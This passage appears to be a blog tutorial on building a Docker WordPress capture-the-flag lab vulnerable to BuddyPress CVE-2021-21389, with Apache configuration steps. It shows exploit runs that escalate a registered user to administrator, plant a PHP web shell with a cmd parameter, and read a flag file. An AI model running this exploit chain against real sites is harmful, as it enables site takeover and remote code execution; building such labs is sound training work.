<br>

But as you can see, wordpress doesn't allow registrations right now... so let's change that.<br>
Settings --> check box: "Anyone can register" <br>

<br>



<br><br>
Although registration was enabled, the Apache server is not configured for the proper permalink...<br>
I'll have to fix that next. <br>
<br>


<br><br>

This same error will be seen when trying to register (it redirects to /register).<br>
There could be two reasons... Apache2 dicrectory not set to AllowOverride, or the 'a2enmod rewrite' not enabled. <br>
The first possibility is confirmed in the /etc/apache2/apache2.conf file:<br>
<br><br>

```
<Directory /var/www/>
	Options Indexes FollowSymLinks
	AllowOverride None
	Require all granted
</Directory>
```

<br><br>
The second is simple to fix throug the build... and why not take care of both while I'm at it...<br>
<br><br>

I'll add this to the dockerfile and rebuild (it's quick when you rebuild on itself).<br>
<br>

```
# WRITE APACHE CONFIGS
RUN echo ""
RUN echo "<Directory /var/www/>" >> /etc/apache2/apache2.conf
RUN echo "	Options Indexes FollowSymLinks" >> /etc/apache2/apache2.conf
RUN echo "	AllowOverride All" >> /etc/apache2/apache2.conf
RUN echo "	Require all granted" >> /etc/apache2/apache2.conf
RUN echo "</Directory>" >> /etc/apache2/apache2.conf
RUN echo ""
RUN echo "ServerName Localhost" >> /etc/apache2/apache2.conf
RUN apache2ctl configtest
RUN a2dissite 000-default
RUN a2enmod rewrite
```

<br>


<br><br>
And now the redirect works... (green background).<br>
So I'll try the exploit once again<br>
<br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/CVE-2021-21389$ python3 CVE-2021-21389.py http://172.17.0.3 test2 1234 whoami
[+] Try to register ...
[+] Try to login ...
[+] Login successfully!
[+] Creating new group to get X-WP-Nonce
[-] The site needs to enable User Groups component!
```

<br><br>
I'm guessing that's a group policy within the plugsin... I found a "User Groups" option, so I'll try that.<br>

<br>



<br><br>
And there it was... vulnerable now...<br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/CVE-2021-21389$ python3 CVE-2021-21389.py http://172.17.0.3 test2 1234 whoami
[+] Try to register ...
[-] That username already exists!
[+] Try to login this username ....
[+] Login successfully!
[+] Try to login ...
[+] Login successfully!
[+] Creating new group to get X-WP-Nonce
[+] Privilege Escalation to Administrator!
[+] Checking RCE ...
[+] RCE via whoami command:
www-data

[+] Link RCE: 
http://172.17.0.3/wp-content/uploads/2021/12/cve202121389.php?cmd=whoami
[+] Done!
```

<br><br>
And finally, if the attacker didn't feel like uploading a shell via the new admin account...<br>
They could simply take a look at the /etc/passwd file and see the user...<br>
And cat the user flag:<br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/CVE-2021-21389$ python3 CVE-2021-21389.py http://172.17.0.3 test2 1234 'cat /home/tpzuser/user.txt'
[+] Try to register ...
[-] That username already exists!
[+] Try to login this username ....
[+] Login successfully!
[+] Try to login ...
[+] Login successfully!
[+] Creating new group to get X-WP-Nonce
[+] Privilege Escalation to Administrator!
[+] Checking RCE ...
[+] RCE via cat /home/tpzuser/user.txt command:
tpz{flag}

[+] Link RCE: 
http://172.17.0.3/wp-content/uploads/2021/12/cve202121389.php?cmd=cat /home/tpzuser/user.txt
[+] Done!
```
<br><br>

<hr>

## CHALLENGE CREATED
### It'll be ready to deply after I've changed the easy passwords.
I hope you've enjoyed this as much as me!  I'll probably create some docker-compose files to automate this,<br>
but it's awesome to see the raw learning experience from start to finish.<br>
If you're up for it, go create some dockers and challenges! Have fun with this... it's awesome!<br>

<hr>
